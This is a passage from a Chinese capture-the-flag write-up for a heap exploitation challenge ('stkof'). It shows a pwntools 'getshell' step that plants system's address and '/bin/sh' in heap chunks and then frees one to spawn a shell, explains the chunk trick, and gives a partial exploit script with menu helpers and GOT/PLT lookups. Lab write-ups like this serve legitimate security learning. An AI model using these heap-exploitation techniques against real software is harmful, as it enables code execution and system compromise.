 ### 第三步 getshell

```python
edit(1,p64(sys))
edit(4,'/bin/sh\x00')
free(4)
r.interactive()
```



### tips:

值得一提的是

当我们有2个相邻的chunk

（这里的相邻指得是这样的，例如有chunk 1 2 3 4 ，当2 3 被free了那么1 4就相邻了）

如果我1中的fd指针指向某个函数的地址

然后与其相邻的chunk里面的fd bk就是作为参数的

参数位数不够的可以向该chunk后面的内容区块拿来利用

然后释放相邻chunk就会执行函数

说人话就是

1号chunk就是函数的调用chunk，与之相邻的chunk是参数chunk

释放参数chunk就可以执行函数。

例如1号存放system的真实地址

4号存放'/bin/sh\x00'

free(4)

就可以执行system('/bin/sh')

### exp:

```python
from pwn import *
r=process('./stkof')
libc=ELF('./libc-2.23.so')
elf=ELF('stkof')
context.log_level='debug'
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
free_got = elf.got['free']
#r=remote('node4.buuoj.cn','29385')
def debug(cmd=''):
     gdb.attach(r,cmd)


def add(size):
    r.sendline("1")
    r.sendline(str(size))
    r.recvuntil("OK\n")
 
def free(idx):
    r.sendline("3")
    r.sendline(str(idx))
 
def edit(idx,strings):
    r.sendline("2")
    r.sendline(str(idx))
    r.sendline(str(len(strings)))
    r.send(strings)
```